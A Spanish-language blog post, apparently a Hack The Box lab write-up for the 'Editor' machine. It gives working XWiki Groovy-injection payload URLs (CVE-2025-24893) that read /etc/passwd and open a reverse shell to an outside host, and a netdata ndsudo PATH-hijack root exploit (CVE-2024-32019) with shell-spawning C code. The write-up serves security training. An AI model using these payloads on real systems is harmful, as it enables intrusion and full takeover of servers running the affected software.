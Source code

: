 ```yaml
---
date: '2025-08-06T15:26:48Z'
draft: false
title: 'HTB: Editor'
tags: ["hacking"]
---
```


# Algunas notas sobre la máquina [Editor](https://app.hackthebox.com/machines/684) de [Hack The Box](https://www.hackthebox.com/)

## Acceso

La intrusión la realicé aprovechando la vulnerabilidad [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893) en la página web. Después de analizar este [PoC](https://www.exploit-db.com/exploits/52136), comencé a probar con distintos payloads:

```bash
# CVE-2025-24893
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("whoami".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("busybox nc 10.10.15.14 443 -e bash".execute().text){{/groovy}}{{/async}}
```

Esto me dio acceso al equipo como el usuario `xwiki`.

---

## Reseteo de contraseña para el usuario `neal`

Buscando credenciales, encontré en **/var/lib/xwiki/data/mails/** que, si desde la web se hacía una petición para cambiar la clave de un usuario válido, el sistema enviaba un correo con un link para restablecer la contraseña.

Así fue como pude cambiar la clave del usuario `neal` y acceder a la wiki. Dentro del servicio no encontré nada útil, pero me pareció interesante ver cómo funciona por detrás esta parte del sistema.

### Link de ejemplo que envia el sistema

```
http://editor.htb:8080/xwiki/authenticate/wiki/xwiki/resetpassword?u=xwiki:XWiki.neal&v=BpqfjCA4Ig0NvmvmoduOVq05oUkX7z
```

---

## Root

Una vez dentro del equipo como el usuario `oliver`, listé los binarios con permisos SUID y me llamó la atención esta línea:

```bash
find / -perm -4400 -type f 2>/dev/null 
# --> /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

Buscando información, encontré el [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) y estas páginas que explican cómo explotarlo:

- [netdata](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)
- [sploitus](https://sploitus.com/exploit?id=5077683C-F7E6-58BE-9375-B5A13A8782C5)

Entonces cree el archivo poc.c con el siguiente contenido

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

int main()
{
        setuid(geteuid());
        system("/bin/bash");
        return 0;
}
```

lo compile

```bash
gcc poc.c -o nvme
```

y finalmente, ejecuté el siguiente comando para convertirme en `root`:

```bash
# CVE-2024-32019
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

saludos!!
